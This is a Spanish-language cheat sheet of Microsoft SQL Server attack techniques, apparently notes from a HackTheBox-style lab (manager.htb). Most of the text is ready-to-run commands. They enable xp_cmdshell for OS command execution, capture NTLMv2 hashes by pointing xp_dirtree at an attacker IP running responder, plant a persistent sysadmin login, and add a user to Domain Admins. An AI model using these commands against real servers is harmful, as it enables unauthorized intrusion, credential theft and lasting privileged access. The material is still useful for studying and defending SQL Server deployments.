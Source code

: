 # MICROSOFT SQL SERVER ATTACKS

- Cuando logramos comprometer credenciales de un usuario de SQL Server, podemos realizar ataques adicionales para obtener acceso a la base de datos o ejecutar comandos en el servidor SQL.

## Vectores de ataque

- **SQL Injection**: Si la aplicación web es vulnerable a inyecciones SQL, podemos utilizar esta vulnerabilidad para ejecutar comandos SQL arbitrarios y obtener acceso a la base de datos.

- **SQLCMD**: Herramienta de línea de comandos para interactuar con SQL Server. Permite ejecutar consultas SQL y scripts.

- **xp_cmdshell**: Procedimiento almacenado que permite ejecutar comandos del sistema operativo desde SQL Server. Si está habilitado, podemos ejecutar comandos de Windows directamente desde SQL Server.

### Acceso mediante impacket e intento de RCE

- `impacket-mssqlclient manager.htb/operator:operator@manager.htb -windows-auth`
- Enumerar directorios: `SQL (MANAGER\Operator  guest@master)> xp_dirtree`

#### Habilitar xp_cmdshell
- `EXEC sp_configure 'show advanced options', 1;`
- `RECONFIGURE;`
- `EXEC sp_configure 'xp_cmdshell', 1;`
- `RECONFIGURE;`
- Entonces ahora: `EXEC xp_cmdshell 'whoami';`


#### Exfiltrar NTLMv2-SSP
- `sudo responder -I tun0`
- `xp_dirtree \\10.10.14.34\share`

#### Crear persistencia en MSSQL
- Crear un nuevo usuario con privilegios:
    ```sql
    CREATE LOGIN [pwned] WITH PASSWORD = 'pass';
    CREATE USER [pwned] FOR LOGIN [pwned];
    EXEC sp_addsrvrolemember 'pwned', 'sysadmin';
    ```
- Verificar el acceso:
    ```sql
    SELECT SYSTEM_USER, USER_NAME();
    ```
- `EXEC xp_cmdshell 'net group "Domain Admins" manager\operator /add /domain';`


#### Herramientas utiles
- Impacket
- PowerUpSQL
- Metasploit `exploit/windows/mssql/mssql_payload`